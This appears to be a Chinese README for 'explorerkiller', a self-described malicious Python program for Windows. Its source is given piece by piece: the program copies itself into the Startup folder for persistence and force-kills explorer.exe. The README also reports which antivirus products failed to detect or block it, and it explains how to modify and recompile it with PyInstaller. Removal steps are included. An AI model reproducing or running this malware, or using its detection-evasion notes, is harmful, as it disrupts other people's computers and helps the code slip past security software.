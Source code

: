 # 文件资源管理器杀手（explorerkiller）
## 简介
这是一个基于python制作并编译的恶意程序。
## 安全提醒
玩归玩，闹归闹，别拿设备开玩笑。假如你不小心（故意不小心）将此病毒运行，其造成的破坏是可以修复的，修复方法：  
1.打开任务管理器（Ctrl+Shift+Esc），运行“explorer.exe”  
2.调出运行菜单（Win+R），输入“shell:startup”并打开，找到本程序并删除文件
## 原理与代码详解
### 导入库
```
import os  
import shutil  
import sys  
import subprocess  
```
os，shutil和sys库：用于获取启动文件夹路径并复制  
subprocess:用于结束文件资源管理器进程  
### 复制到启动文件夹
```
startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
```
获取系统的启动文件夹路径  
```
script_name = os.path.basename(sys.argv[0])
```
获取程序名称  
```
def is_file_in_startup_folder(startup_folder, file_name):
    return file_name in os.listdir(startup_folder)
```
定义检查文件是否存在函数    
```
def copy_self_to_startup(startup_folder, script_path, script_name):
    destination_path = os.path.join(startup_folder, script_name)
    shutil.copyfile(script_path, destination_path)
    print(f"Copied {script_name} to {destination_path}")
```
定义复制文件函数  
```
if is_file_in_startup_folder(startup_folder, script_name):
    pass
else:
    copy_self_to_startup(startup_folder, script_path, script_name)
```
调用检查文件和复制文件函数，检查是否已有文件，假如没有，复制程序  
### 结束文件资源管理器
```
subprocess.run(['taskkill','/im','explorer.exe','/f'])
```
## 针对杀毒软件的测试
360安全卫士极速版：查杀失败，主动防御失败  
火绒安全：查杀失败，主动防御成功  
腾讯电脑管家：查杀失败，主动防御失败  
## 其他参数
运行系统：windows10（后续会支持更多版本）  
编译器：pyinstaller v6.10.0  
python:3.13.0  
## 如何自己修改本程序并编译
1.下载并安装python  
2.下载本程序源码  
3.进行修改  
4.在终端切到修改过后的程序源码所在路径，运行
```
pyinstaller -F 程序名称.py（请确认安装了pyinstaller）
```
